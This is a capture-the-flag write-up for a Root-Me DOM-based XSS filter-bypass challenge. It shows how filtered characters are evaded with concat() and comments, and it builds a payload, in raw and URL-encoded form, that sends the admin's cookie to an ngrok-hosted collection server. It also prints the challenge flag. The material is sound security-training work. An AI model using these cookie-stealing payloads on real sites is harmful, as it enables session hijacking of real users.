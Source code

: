 # XSS DOM Based - Filters Bypass

**Point**: 50 Points  

**Description**: Steal the admin’s session cookie.

## Solution:

There's a simple lucky random number

<p align="center"><img width="350px" height="150px" src="https://user-images.githubusercontent.com/48288606/159757819-ea21fc4f-4d09-4a96-a133-c48bdb14e111.png"/></p>

Try to enter `123` and view where our result is reflected in source code.

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/159758242-a6e8b484-209c-4e2c-85d8-d13a8f735282.png" /></p>

Try various of input, I have found some character that server filter: `"` `+` `<>` `;` `http:` `https:`. How to by pass these things ?
- We inject to the middle of code without any tags. So we don't need `<>`
- `"` for escaping. OK! What if I use `'` :))
- `+`, Not prohibiting `()` means we can play with function. Let `concat()` do it works.
- `;`, prevent us from ending our command. Just use `//` to comment out the rest of code.
- `[http | https]:`, we could seperate these strings and concatenate it together.

Try if XSS is possible with `'.concat(alert(1)) //`

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/159759803-fbb65a57-2136-4b54-bad8-6f4baecfbdf7.png" /></p>

Not too hard?. Now this proves XSS can be in action. We have to get the **cookie** from the victim. Payload will look like this:

```text
'.concat(document.location='ht'.concat('tp{your_server_link_site}?cookie=').concat(document.cookie)) //
```

Let's take action step-by-step:

1. Run PHP server with **localhost** and optional **port** without any content: `php -S localhost:4444 `

2. Public our server by tunneling. I use **ngrok** to serve this purpose:
   - Connect to ngrok with your account token: `ngrok authtoken {your_account_token}`
   - Tunneling our local site to public network with port specified above: `ngrok http 4444`
   - Get the public link we get from ngrok and create with payload above.
   ![image](https://user-images.githubusercontent.com/48288606/159753459-1bd85e80-cda4-41b1-8235-511514bee716.png)

3. Send our payload to cookie **status** and reload page:
```text
'.concat(document.location='ht'.concat('tp://6b48-123-21-33-87.ngrok.io?cookie=').concat(document.cookie)) //
``` 

<p align="center"> <img src="https://user-images.githubusercontent.com/48288606/159760446-ec995288-b1b5-4aba-9ecb-d1ca822da4c1.png" /> </p>

Our payload is working.

There's one more problem we have to deal with. When we submit, the page quickly directs to our site so we can't have enough time to "collect" the URL. We should decode our payload ([Use this!](https://www.urlencoder.org/) and set **number** param with decoded value for creating our own links.

Encoded payload:

```text
%27.concat%28document.location%3D%27ht%27.concat%28%27tp%3A%2F%2F6b48-123-21-33-87.ngrok.io%3Fcookie%3D%27%29.concat%28document.cookie%29%29%20%2F%2F
```
Assign it into **number** parameter in URL query. We have full payload:

```text
http://challenge01.root-me.org/web-client/ch33/index.php?number=%27.concat%28document.location%3D%27ht%27.concat%28%27tp%3A%2F%2F6b48-123-21-33-87.ngrok.io%3Fcookie%3D%27%29.concat%28document.cookie%29%29%20%2F%2F
```
**NOTE: You can check this payload by put it directly to URL search bar**

Move to "Contact" section. Send our payload URL to server. Wait for a while, check whether our server has received cookie or not.

<p align="center"> <img src="https://user-images.githubusercontent.com/48288606/159761193-2c8d1d40-4b82-48af-a788-a0142a2bbd0b.png" /> </p>

FLag: **rootme{FilTERS_ByPass_DOm_BASEd_XSS}**

